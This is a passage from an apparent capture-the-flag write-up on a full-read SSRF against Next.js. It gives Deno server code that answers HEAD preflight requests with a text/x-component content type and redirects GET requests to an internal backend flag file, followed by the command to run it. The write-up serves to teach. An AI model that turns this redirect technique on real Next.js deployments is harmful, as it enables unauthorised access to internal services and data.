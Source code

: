 We need to exfiltrate data, so let's follow the remainder of the blog post:

-   Set up a server that takes requests on any path.
-   On any HEAD request, return a 200 with Content-Type: `text/x-component`.
-   On a GET request, return a 302 to our intended SSRF target.
-   When NextJS fetches from our server, it will satisfy the preflight check on our HEAD request but will follow the redirect on GET, giving us a full read SSRF!

Putting it all together, we modify the supplied PoC.

{% code overflow="wrap" %}

```ts
Deno.serve((request: Request) => {
    console.log(
        "Request received: " +
            JSON.stringify({
                url: request.url,
                method: request.method,
                headers: Array.from(request.headers.entries()),
            })
    );
    // Head - 'Content-Type', 'text/x-component');
    if (request.method === "HEAD") {
        return new Response(null, {
            headers: {
                "Content-Type": "text/x-component",
            },
        });
    }
    // Get - redirect to flag
    if (request.method === "GET") {
        return new Response(null, {
            status: 302,
            headers: {
                Location: "http://backend/flag.txt",
            },
        });
    }
});
```

{% endcode %}

So, we will respond to the initial `HEAD` request with a `200 OK` of content-type `text/x-component`, which triggers a `GET` request to our server. At this point, we issue a `302` redirect to the flag.txt file on the `backend`.

That's it - let's serve the PoC using `deno`.

{% code overflow="wrap" %}

```bash
deno run --allow-net --allow-read main.ts
Listening on http://localhost:8000/
```
